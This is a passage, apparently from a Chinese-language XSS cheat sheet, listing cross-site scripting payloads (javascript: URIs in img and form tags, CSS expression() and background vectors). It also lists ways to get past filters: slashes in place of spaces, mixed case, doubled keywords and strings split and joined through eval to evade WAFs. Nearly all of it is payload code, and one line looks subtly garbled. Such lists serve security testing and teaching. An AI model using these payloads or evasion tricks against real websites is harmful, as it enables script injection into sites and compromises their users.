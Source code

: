 `<img>`标签

```csharp
<img src=javascript:alert('xss')>//IE7以下
```

`<form>`标签

```xml
<form action="Javascript:alert(1)"><input type=submit>
```

### 其它

expression属性

```javascript
<img style="xss:expression(alert('xss''))"> // IE7以下
<div style="color:rgb(''�x:expression(alert(1))"></div> //IE7以下
<style>#test{x:expression(alert(/XSS/))}</style> // IE7以下
```

background属性

```xml
<table background=javascript:alert(1)></table> //在Opera 10.5和IE6上有效
```


# 过滤绕过

## 过滤空格

用`/`代替空格

<img/src="x"/onerror=alert("xss");>

## 过滤关键字

### 大小写绕过

`<ImG sRc=x onerRor=alert("xss");>`

### 双写关键字

有些waf可能会只替换一次且是替换为空，这种情况下我们可以考虑双写关键字绕过

`<imimgg srsrcc=x onerror=alert("xss");>`

### 字符拼接

利用eval

`<img src="x" onerror="a=`aler`;b=`t`;c='(`xss`);';eval(a+b+c)">`
